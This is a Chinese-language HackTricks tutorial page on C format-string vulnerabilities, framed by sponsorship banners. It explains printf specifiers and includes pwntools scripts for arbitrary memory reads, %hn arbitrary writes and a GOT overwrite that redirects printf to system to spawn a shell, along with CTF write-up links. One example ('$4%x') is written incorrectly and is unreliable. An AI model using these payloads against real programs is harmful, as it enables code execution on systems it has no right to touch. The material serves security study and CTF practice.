 # 格式字符串

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

在 C 中，**`printf`** 是一个可以用来 **打印** 字符串的函数。该函数期望的 **第一个参数** 是 **带格式的原始文本**。期望的 **后续参数** 是 **替代** 原始文本中 **格式化符** 的 **值**。

当 **攻击者的文本作为该函数的第一个参数** 时，就会出现漏洞。攻击者将能够构造一个 **特殊输入，利用** **printf 格式** 字符串的能力来读取和 **写入任何地址（可读/可写）** 中的 **任何数据**。这样就能够 **执行任意代码**。

#### 格式化符：
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**示例：**

* 易受攻击的示例：
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* 正常使用：
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* 缺少参数：
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
### **访问指针**

格式 **`%<n>$x`**，其中 `n` 是一个数字，允许指示 printf 选择第 n 个参数（来自栈）。因此，如果您想使用 printf 读取栈中的第 4 个参数，可以这样做：
```c
printf("%x %x %x %x")
```
并且你会从第一个参数读取到第四个参数。

或者你可以这样做：
```c
printf("$4%x")
```
并直接读取第四个。

注意，攻击者控制着 `pr`**`intf` 参数，这基本上意味着** 他的输入将在调用 `printf` 时位于栈中，这意味着他可以在栈中写入特定的内存地址。

{% hint style="danger" %}
控制此输入的攻击者将能够 **在栈中添加任意地址并使 `printf` 访问它们**。在下一节中将解释如何利用这种行为。
{% endhint %}

## **任意读取**

可以使用格式化器 **`$n%s`** 使 **`printf`** 获取位于 **n 位置** 的 **地址**，并 **将其作为字符串打印**（打印直到找到 0x00）。因此，如果二进制文件的基地址是 **`0x8048000`**，并且我们知道用户输入从栈的第四个位置开始，则可以使用以下方式打印二进制文件的开头：
```python
from pwn import *

p = process('./bin')

payload = b'%6$p' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
注意，您不能将地址 0x8048000 放在输入的开头，因为字符串将在该地址的末尾以 0x00 结束。
{% endhint %}

## **任意写入**

格式化器 **`$<num>%n`** **写入** 在堆栈中 \<num> 参数所指示地址的 **已写入字节数**。如果攻击者可以使用 printf 写入任意数量的字符，他将能够使 **`$<num>%n`** 在任意地址写入任意数字。

幸运的是，要写入数字 9999，并不需要在输入中添加 9999 个 "A"，为了做到这一点，可以使用格式化器 **`%.<num-write>%<num>$n`** 在 **`num` 位置指向的地址** 中写入数字 **`<num-write>`**。
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
然而，请注意，通常为了写入一个地址，例如 `0x08049724`（这是一个一次性写入的巨大数字），**使用的是 `$hn`** 而不是 `$n`。这允许**只写入 2 字节**。因此，这个操作需要进行两次，一次是针对地址的高 2B，另一次是针对低 2B。

因此，这个漏洞允许**在任何地址写入任何内容（任意写入）。**

在这个例子中，目标是**覆盖**一个**函数**在**GOT**表中的**地址**，该函数将在稍后被调用。尽管这可能会滥用其他任意写入到 exec 的技术：

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

我们将**覆盖**一个**函数**，该函数**接收**来自**用户**的**参数**并**指向****`system`** **函数**。\
如前所述，写入地址通常需要 2 个步骤：您**首先写入地址的 2 字节**，然后写入另外 2 字节。为此使用**`$hn`**。

* **HOB** 被调用为地址的 2 个高字节
* **LOB** 被调用为地址的 2 个低字节

然后，由于格式字符串的工作方式，您需要**首先写入较小的** \[HOB, LOB]，然后写入另一个。

如果 HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

如果 HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools 模板

您可以在以下位置找到准备此类漏洞利用的模板：

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

或者可以从 [**这里**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite) 找到这个基本示例：
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## 其他示例与参考

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32位，无relro，无canary，nx，无pie，基本使用格式字符串从栈中泄露标志（无需更改执行流程）
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32位，relro，无canary，nx，无pie，格式字符串覆盖地址`fflush`与win函数（ret2win）
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32位，relro，无canary，nx，无pie，格式字符串在`.fini_array`中写入main内部的地址（使流程再循环一次）并将地址写入指向`strlen`的GOT表中的`system`。当流程返回到main时，`strlen`与用户输入一起执行并指向`system`，将执行传递的命令。

{% hint style="success" %}
学习与实践AWS黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践GCP黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github库提交PR分享黑客技巧。

</details>
{% endhint %}
